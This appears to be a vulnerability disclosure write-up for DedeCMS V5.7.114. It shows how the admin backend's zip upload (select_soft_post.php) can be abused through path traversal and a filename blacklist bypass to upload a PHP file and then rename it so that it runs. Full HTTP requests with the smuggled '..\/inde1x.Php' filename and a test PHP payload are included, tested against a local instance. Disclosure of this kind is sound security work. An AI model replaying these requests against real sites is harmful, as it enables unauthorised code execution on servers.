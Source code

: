 # Dedecms Path traversal+arbitrary file upload(other enter)

​	The zip compression file upload function of the Dreamweaver backend software manager has vulnerabilities such as path traversal and arbitrary file upload

![image-20240708130926507](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitTwo.assets\image-20240708130926507.png)

​	E: \ seebug \ php study_p is the root directory of my current web integration environment deployment. The current project is deployed in the 127.0.0.1-9600 folder under the WWW path.This time I chose E:\seebug\phpstudy_pro\WWW\127.0.0.1_9600\uploads\soft as the destination path for file upload, because PHP scripts can be parsed in this fileWS

​	visit http://127.0.0.1:9600/dede/ And log in to the backend of dedecms to create a new atlas list http://127.0.0.1:9600/dede/album_add.php The interface is shown below

![image-20240712135020653](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitTwo.assets\image-20240712135020653.png)	The vulnerability mainly appears at the compressed file upload location

![image-20240712135159882](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitTwo.assets\image-20240712135159882.png)

```http
POST /include/dialog/select_soft_post.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 733
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGneeoYoNcoA3cyfK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/include/dialog/select_soft.php?f=form1.zipfile
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9fvqmoiniui5peunoom189bb23; _csrf_name_2f6ef1b1=251b7a78446c8135eb4f76930f45203f; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=dc1e3af496636f6e; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; DedeLoginTime=1720410513; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=51a7f7470e41e0c9
Connection: close

------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="activepath"

/uploads/soft
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="f"

form1.zipfile
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="job"

upload
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="uploadfile"; filename="try.zip"
Content-Type: application/x-zip-compressed

<?php echo 123;?>
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="newname"

..\/inde1x.Php
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="sb1"

确定
------WebKitFormBoundaryGneeoYoNcoA3cyfK--

```

​	Select_Soft_post.chp did not perform sufficient filtering on the newname parameter, so it is possible to bypass the file suffix blacklist by modifying the value of newname to a file name with the suffix 'php', in conjunction with the previous two path traversal vulnerabilities, to achieve arbitrary file upload vulnerabilities

![image-20240708123702680](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitOne.assets\image-20240708123702680.png)

![image-20240708132915068](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitOne.assets\image-20240708132915068.png)

​	The uploaded files may not be able to run directly, and there may be a possibility that the uploaded files cannot be parsed, because by default, the Apache environment combined with the PHP environment can only parse `. php ` files, and configuration files such as `. htaccess ` can be uploaded.

![image-20240708133005172](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitOne.assets\image-20240708133005172.png)

​	Here, you can also use the built-in file management system in the 'dedecms' backend to rename files and enable them to parse and run normally.

```http
POST /dede/file_manage_control.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 139
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:9600/dede/file_manage_view.php?fmdo=rename&filename=inde1x.Php&activepath=%2Fuploads
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; DedeLoginTime=1720410513; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=51a7f7470e41e0c9; _csrf_name_2f6ef1b1=267c4d98da681002ab955b10f8e0e3c3; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=1d4b8a59aa88baa3; ENV_GOBACK_URL=%2Fdede%2Fmedia_main.php%3Fdopost%3Dfilemanager
Connection: close

fmdo=rename&activepath=%2Fuploads%2Fsoft&filename=inde1x.Php&oldfilename=inde1x.Php&newfilename=index1.php&imageField1.x=31&imageField1.y=6
```

​	Here, we will attempt to retrieve the 'index1x.Php' from the '/uploads/soft' path Rename the file to 'index1.php'`

![image-20240708133049094](E:\笔记\云\dedecms.assets\image-20240708133049094.png)

![image-20240708133101827](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitOne.assets\image-20240708133101827.png)

​	Accessing the file again successfully parsed and ran the 'PHP' file

![image-20240708133140911](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitOne.assets\image-20240708133140911.png)